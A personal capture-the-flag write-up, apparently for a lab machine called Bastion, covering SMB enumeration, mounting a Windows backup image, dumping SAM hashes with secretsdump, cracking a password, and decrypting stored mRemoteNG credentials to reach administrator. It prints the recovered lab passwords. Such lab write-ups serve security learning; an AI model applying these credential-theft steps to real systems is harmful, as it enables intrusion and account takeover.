 **Ping**
![[Pasted image 20240706140426.png]]

**Nmap Scans**
```
mapit 10.10.10.134
```

Nmap Default Scan
![[Pasted image 20240706140550.png]]

Nmap Service and Script Scan
![[Pasted image 20240706140631.png]]
![[Pasted image 20240706140648.png]]

Nmap All Port Scan
![[Pasted image 20240706140822.png]]
Found some New Ports

Nmap Script and Service scan for new port found


Smb Enumeration
```
smbclient -U '' -L \\\\10.10.10.134\\\\
```
![[Pasted image 20240706140752.png]]

Will Enumerate the Share
```
smbclient //10.10.10.134/Backups -N
```
![[Pasted image 20240706141305.png]]
This looks like a windows Image backup, so we might get NTLM hashes from SAM and SYTEM file
Will mount this instead downloading

I have already created two directory one is smb and another vhd for mounting purpose in /mnt
```
mount -t cifs //10.10.10.134/backups /mnt/smb -o user=,password=
```
![[Pasted image 20240708125411.png]]

We can see Windows Image backup in our mounted dir, will enumerate further
![[Pasted image 20240708125648.png]]
We can see two .vhd files, which is Virtual Hard Disk files, will mount this get in another dir vhd

```
guestmount --add /mnt/smb/WindowsImageBackup/L4mpje-PC/Backup\ 2019-02-22\ 124351/9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro /mnt/vhd
```
![[Pasted image 20240708125836.png]]
In Second .vhd file there are many folders including windows, will try to get SAM and SYSTEM




Will Jump to Initial Foothold.....!


Found Sam and System, will dump NTLM hashes using impacket-secretsdump
```
impacket-secretsdump -sam SAM -security SECURITY -system SYSTEM LOCAL
```
![[Pasted image 20240708130100.png]]

Will crack this using crack station first https://crackstation.net/
![[Pasted image 20240708130219.png]]
Got the password its **L4mpje:bureaulampje**

Will get a session using ssh
```
ssh L4mpje@10.10.10.134
```
![[Pasted image 20240708130358.png]]
Got it...!

**user.txt**
![[Pasted image 20240708130518.png]]



Will Jump to Privilege Escalation.....!

Will Check our Privileges
```
whoami /priv
```
![[Pasted image 20240708130805.png]]

We can't get systeminfo
![[Pasted image 20240708130833.png]]

User info 
![[Pasted image 20240708131107.png]]

I can see the mRemoteNG in Program files x86
![[Pasted image 20240708132517.png]]
After some research about this program, I cam top know that this will save the password in encrypted format, the location of the xml file the password is C:\\Users\\l4mpje\\AppData\\Roaming\\mRemoteNG\\confCons.xml
![[Pasted image 20240708132747.png]]

Will decrypt thus using a python script https://github.com/haseebT/mRemoteNG-Decrypt/blob/master/mremoteng_decrypt.py
![[Pasted image 20240708133117.png]]

Will use -s option for the encrypted password string
```
python3 /root/Programs/mremoteng_decrypt.py -s aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw==
```
![[Pasted image 20240708133230.png]]
Found the admin password **thXLHM96BeKL0ER2**

Will get as session as admin via ssh
```
ssh administrator@10.10.10.134
```
![[Pasted image 20240708133828.png]]

**Root.txt**
![[Pasted image 20240708133905.png]]



Done with Bastion.....:)